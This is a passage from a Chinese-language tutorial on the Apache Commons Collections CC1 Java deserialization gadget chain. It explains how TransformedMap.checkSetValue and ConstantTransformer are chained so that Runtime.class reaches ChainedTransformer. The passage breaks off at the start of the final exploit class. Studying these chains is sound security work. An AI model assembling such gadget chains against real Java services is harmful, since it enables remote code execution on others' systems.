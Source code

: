      // 跟进去首先走MapEntry类的setValue()
      public Object setValue(Object value) {
          // 这里在跟进去
          value = parent.checkSetValue(value);
          return entry.setValue(value);
      }
      // 来到TransformedMap的checkSetValue
      protected Object checkSetValue(Object value) {		// idea右边可以发现value的值为：AnnotationTypeMismatchExceptionProxy@668
      	// 但是呢我们想要执行命令这个value值应该是Runtime.class，
          // 所有问题他就是出现在这里
          
          return valueTransformer.transform(value);
          // valueTransformer.transform(value) 其实是等价于 ChainedTransformer.transform(Runtime.class);
      }
      ```

30.   **这个时候就是要想办法把这个Runtime.class弄过去，直接搞肯定是不行，这个时候又要找找有没有能利用的类，这个时候我们开头能看到的ConstantTransformer类就可以用到了**

      ```java
      public class ConstantTransformer implements Transformer, Serializable {
          // 可以通过构造方法把Runtime放进去
      	public ConstantTransformer(Object constantToReturn) {
              super();
              iConstant = constantToReturn;
          }
          
          // 然后这个transform方法是不管input传入什么
          // 它始终就会返回Runtime，刚好可以解决Runtime的参数问题
          public Object transform(Object input) {
              return iConstant;
          }
      }
      ```

31.   ==那么最终的调用链如下==

      ```java
      package org.example;
      
      import org.apache.commons.collections.Transformer;
      import org.apache.commons.collections.functors.ChainedTransformer;
      import org.apache.commons.collections.functors.ConstantTransformer;
      import org.apache.commons.collections.functors.InvokerTransformer;
      import org.apache.commons.collections.map.TransformedMap;
      
      import java.io.FileInputStream;
      import java.io.FileOutputStream;
      import java.io.ObjectInputStream;
      import java.io.ObjectOutputStream;
      import java.lang.annotation.Target;
      import java.lang.reflect.Constructor;
      import java.util.HashMap;
      import java.util.Map;
      